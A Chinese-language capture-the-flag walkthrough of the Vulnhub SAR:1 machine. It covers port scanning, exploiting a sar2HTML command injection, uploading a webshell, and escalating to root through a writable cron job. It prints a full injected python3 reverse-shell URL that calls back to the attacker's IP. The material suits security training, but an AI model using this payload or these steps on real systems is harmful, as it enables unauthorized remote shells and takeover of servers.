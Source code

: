 ```yaml
---

title: Vulnhub	425 SAR 1
date: 2020-02-15
---
```


考点：文件上传、命令执行、定时任务

靶机链接：<https://www.vulnhub.com/entry/sar-1,425/>
<!--more-->
## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.15 |
| SAR        | 10.0.2.12 |



## 初步打点

### 端口扫描

```bash
$ export $tip=10.0.2.12
$ sudo nmap -v -A -p- $tip
Scanning 10.0.2.12 [65535 ports]
Discovered open port 80/tcp on 10.0.2.12
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
```



### WEB测试

看来要硬钢web应用了

![1](https://www.vulnhub.cn/walkthrough/425/1.webp)

查看phpinfo

![2](https://www.vulnhub.cn/walkthrough/425/2.webp)

查看robots.txt

![3](https://www.vulnhub.cn/walkthrough/425/3.webp)

尝试访问sar2HTML作为二级目录

![4](https://www.vulnhub.cn/walkthrough/425/4.webp)





### 漏洞发现

搜一下sar2ascii.tar发现

https://www.exploit-db.com/exploits/47204 

## 获得权限

### 靶机测试

#### 思路一 命令执行

按照https://www.exploit-db.com/exploits/47204 执行命令

![5](https://www.vulnhub.cn/walkthrough/425/5.webp)

antsword连接成功

![6](https://www.vulnhub.cn/walkthrough/425/6.webp)

使用python直接反弹端口失败了，可以替换`python3 python3.5 python3.6 python3.87 python3.8 python3.9`等等，例如这台靶机使用`python3`成功反弹

```http
http://10.0.2.12/sar2HTML/index.php?plot=;python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.15",444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### 思路二 文件上传

另外可以点击new直接上传webshell，对应目录是`/sarDATA/uPLOAD/`

```http
http://10.0.2.12/sar2HTML/sarDATA/uPLOAD/2.php
```

antsword连接成功

## 提权

[linpeas.sh](https://www.iihack.com/pages/tools/linpeas.sh.html)跑了遍发现定时任务

![7](https://www.vulnhub.cn/walkthrough/425/7.webp)

### 定时任务

修改定时任务的文件，每隔五分钟执行

![8](https://www.vulnhub.cn/walkthrough/425/8.webp)

静静等待，获得root权限shell

![9](https://www.vulnhub.cn/walkthrough/425/9.webp)





